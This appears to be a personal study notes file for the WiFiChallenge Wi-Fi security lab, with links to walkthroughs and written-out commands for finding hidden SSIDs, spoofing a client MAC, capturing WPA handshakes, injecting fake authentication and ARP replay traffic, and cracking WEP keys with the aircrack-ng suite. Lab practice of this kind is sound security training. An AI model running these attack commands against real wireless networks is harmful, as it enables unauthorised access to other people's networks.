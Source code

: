# Files: 
https://wifichallengelab.com/challenges  

# Solve:
https://r4ulcl.com/posts/walkthrough-wifichallenge-lab-2.0/#05-what-is-the-flag-in-the-hidden-ap-router-behind-default-credentials  
https://r4ulcl.com/posts/wifi_db-in-wifichallenge-lab/  

# Something new:
1) **airodump-ng** --> sudo airmon-ng start wlan0.  
                       sudo airodump-ng wlan0mon -w ~/wifi/scan --band abg --wps --manufacturer
2) **ESSID of hidden AP** --> https://xre0us.io/posts/identifying-ap-with-hidden-ssid/  
        sudo airmon-ng start wlan0  
        iwconfig wlan0mon channel <channel_number>  
        sudo mdk4 wlan0mon p -t <MAC> -f <wordlist>
3) **Connection using specific ESSID** --> Create config file  
       wpa_supplicant -Dnl80211 -iwlan2 -c <config_file>
       dhclient wlan2 -v  
4) To get valid credentials for login as well as the login.php you have to change the MAC address to that of the client using the ESSID.  
5) **besside-ng** --> used to crack WEP passwords and capture WPA handshakes.  
           besside-ng -c <channel_number> -b <bssid> wlan2 -v  
6) **Cracking WEP passwords** --> Capture data using airodump-ng.  
           To generate extra data to the AP,we can launch a fake authentification using --> sudo aireplay-ng -1 3600 -q  10 -a <BSSID> wlan0mon.  
           Also extra ARP packets can be generated using(ARP request-replay attack) --> sudo aireplay-ng --arpreplay -b <BSSIS> -h <client_MAC> wlan0mon.  
           Use aircrack-ng to crack pwd.  
7) 
